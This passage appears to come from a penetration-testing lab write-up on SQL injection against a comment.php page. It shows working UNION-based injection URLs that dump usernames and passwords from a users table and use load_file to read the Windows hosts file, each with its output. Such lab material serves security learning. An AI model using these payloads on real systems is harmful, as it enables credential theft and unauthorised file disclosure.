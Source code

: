 #### [8] Display select columns for all rows in a table

Obviously, we would select the `name` and `password` columns.

```
10.11.5.14/comment.php?id=767 union all select 1,2,3,4,concat(name,0x30a,password),6 from users
```

Outputs

```
    ID     Lang     Name     Comment
    767    en       Tim      Crappy comment text
    1      2        3        joe baseball123
    1      2        3        steve letmein
    1      2        3        sue password1
```

#### [9] Use MySQL to load and display files from the operating system

Try to read the hosts file using the MySQL load_file function:

```
http://10.11.5.14/comment.php?id=767 union all select 1,2,3,4,load_file('c:/windows/system32/drivers/etc/hosts'),6
```

Outputs

```
    ID     Lang     Name     Comment
    767    en       Tim      Crappy comment text
    1      2        3        # Copyright (c) 1993-2009 Microsoft Corp. 
# 
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows. 
# 
# This file contains the mappings of IP addresses to host names. Each 
# entry should be kept on an individual line. The IP address should 
# be placed in the first column followed by the corresponding host name. 
# The IP address and the host name should be separated by at least one # space. 
# 
# Additionally, comments (such as these) may be inserted on individual 
# lines or following the machine name denoted by a '#' symbol. 
# 
# For example: 
# 
# 102.54.94.97 rhino.acme.com 
# source server 
# 38.25.63.10 x.acme.com 
# x client host 
# localhost name resolution is handled within DNS itself. 
# 127.0.0.1 localhost 
# ::1 localhost
```

<br>
